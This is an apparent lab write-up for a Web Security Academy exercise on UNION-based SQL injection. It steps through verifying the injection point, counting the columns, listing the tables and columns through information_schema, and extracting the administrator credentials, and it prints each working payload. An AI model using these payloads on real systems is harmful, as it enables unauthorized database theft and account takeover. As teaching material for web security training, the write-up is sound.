






 # Lab: SQL injection attack, listing the database contents on non-Oracle databases

## Lab Description
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, enabling a `UNION` attack to retrieve data from other tables. 

The database contains a table holding usernames and passwords. The goal is to determine the name of this table, identify its columns, extract the credentials, and log in as the `administrator` user.

---

## Step 1 — Intercept the Filter Request
Navigate to the application home page, click on a product category filter (e.g., `Tech+gifts`), capture the dynamic request via Burp Suite, and forward it to the Repeater instrument.

### Example Base Request
GET /filter?category=Tech+gifts HTTP/2
Host: 0a9d008003796b0184b0960500930070.web-security-academy.net

---

## Step 2 — Verify SQL Injection & Comment Format
To validate the insertion point, a single quote (`'`) was appended to break the database syntax structure, followed by verifying the comment sequence to restore execution flow.

### Results
* `Tech+gifts'` -> **500 Internal Server Error** (Confirms input syntax manipulation impacts the query).
* `Tech+gifts'--+` -> **200 OK** (Confirms non-Oracle comment line sequence `-- ` is processed effectively).

### Screenshots

---

## Step 3 — Discover Column Count & Data Type Compatibility
To build a workable data exfiltration query, the exact column matrix and data formats must be profiled.

### Test Payload
`Tech+gifts'+UNION+SELECT+'abc','def'--+`

### Result
* **HTTP Status Code:** 200 OK
* **Analysis:** The submission executes cleanly, confirming the backend expectations consist of exactly **2 columns**, both of which fully accept **String (textual)** data formats.

### Screenshots

---

## Step 4 — Enumerate Database Tables
Using the universal metadata layer `information_schema.tables`, a query was injected to list all table names allocated inside the database scope.

### Target Table Payload
`Tech+gifts'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--+`

### Result
* **HTTP Status Code:** 200 OK
* **Identified User Table:** `users_gxuwuo`

### Screenshots

---

## Step 5 — Enumerate Columns of the Target Table
To extract structural fields for data exfiltration, a metadata mapping request was sent to `information_schema.columns` filtering by the target table name discovered in the previous step.

### Target Column Payload
`Tech+gifts'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_gxuwuo'--+`

### Result
* **HTTP Status Code:** 200 OK
* **Identified Columns:**
  * Username Field: `username_ljgzjc`
  * Password Field: `password_meehzs`

### Screenshots

---

## Step 6 — Data Exfiltration & Privilege Escalation
Armed with the specific table name and its precise column structural mapping, a targeted data extraction request was initiated to retrieve valid application user accounts.

### Exfiltration Payload
`Tech+gifts'+UNION+SELECT+username_ljgzjc,+password_meehzs+FROM+users_gxuwuo--+`

### Compromised Credentials
* **Username:** `administrator`
* **Password:** `9qrx08kiqe9g4ssvf2qa`

### Screenshots

---

## Step 7 — Execution & Verification (Lab Solved)
By leveraging the recovered administrator credentials at the `/login` endpoint, a high-privilege session was successfully authenticated, satisfying the final objective.

### Screenshots
